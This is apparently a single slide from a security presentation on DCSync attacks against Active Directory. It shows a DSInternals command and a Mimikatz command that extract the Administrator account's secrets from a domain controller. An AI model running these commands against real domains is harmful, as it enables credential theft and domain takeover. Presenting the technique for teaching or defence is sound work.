

Let’s replicate the secrets!
Tools
DSInternals
Get-ADReplAccount -SamAccountName Administrator -Domain CONTOSO -Server DC01

Mimikatz
lsadump::dcsync /user Administrator